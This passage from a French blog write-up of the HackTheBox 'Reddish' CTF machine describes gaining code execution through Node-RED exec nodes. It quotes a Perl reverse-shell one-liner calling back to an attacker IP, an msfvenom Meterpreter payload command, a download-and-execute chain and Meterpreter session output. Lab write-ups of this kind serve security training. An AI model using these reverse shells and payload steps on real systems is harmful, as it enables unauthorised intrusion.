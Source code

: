 J'ai un peu galéré à l'utiliser avant de comprendre que le déclencheur utilisé en début de chaîne n'était pas adapté. Il faut s'en remettre à la *node* baptisée *inject* qui est par défaut de type *timestamp*.  

L'avantage de cette *node* c'est que l'action se déclenche tout simplement quand on clique sur le petit carré sur sa gauche :)  

Un timestamp est alors passé à la *node* suivante. Dans le cas de la node exec ce timestamp serait utilisé comme argument pour la commande choisie.  

Il faut prendre soin dans les options d'*exec* de dire que l'on ne souhaite pas utiliser cette entrée (case à décocher, voir plus bas) et de définir nous même les arguments.  

Après quelques essais peu concluants pour obtenir un reverse shell j'ai exploré un peu le système de fichier de la machine pour voir qu'il s'agissait d'un docker (fichier *.dockerenv* à la racine) très minimaliste (pas de *netcat* bien sûr mais pas non plus de Python, de curl ni de wget, argh...)  

Tout juste un *Perl*... Allez il faut pas faire le difficile :D J'ai ressorti ce vieux [dc.pl](https://gist.github.com/islanddog/f5ad7636acf61fd963531ead7c784dc9) (je compte pas le nombre de machines que je lui ait fait visiter à une époque lointaine...) mais là encore grosse déception :  

![HackTheBox Reddish CTF Node-RED Perl TCP FAIL](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/reddish/reddish_perl_broken.png)

Quoi ? *Unknown Protocol* ? técépé tu connais pas ? Argh c'est pas vrai !  

Du coup je suis reparti dans mes *nodes* à la recherche du *Graal* pour uploader un fichier.  

Petite aparté, quand j'ai eu accès au système plus tard j'ai vu que certains étaient parvenu à obtenir leur reverse shell avec ce one-liner :  

```bash
perl -MIO -e $p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.13.103:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;
```

Oui Perl ça pique les yeux :p  

Finalement c'est ce download-execute en *Node-RED* qui a eu ma faveur :  

![HackTheBox Reddish CTF Node-RED download execute](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/reddish/reddish_download_execute.png)

![HackTheBox Reddish CTF Node-RED exec node](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/reddish/reddish_exec.png)

Il télécharge un *Meterpreter* (généré via *msfvenom -p linux/x64/meterpreter\_reverse\_tcp LHOST=10.10.14.99 LPORT=7777 -f elf -o devloop.bin*) sur mon serveur web (il faut indiquer dans la node que l'on souhaite en sortie un buffer et non une chaîne de caractères UTF-8) et l'écrit à l'emplacement de notre choix.  

Ensuite j'appelle *exec* sur */bin/sh* avec les arguments *-c "chmod +x /tmp/devloop.bin; /tmp/devloop.bin &"*.  

On obtient alors notre session *Meterpreter* et on n'est qu'au début d'un looooog voyage :)  

```plain
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0

Interface  9
============
Name         : eth0
Hardware MAC : 02:42:ac:12:00:02
MTU          : 1500
```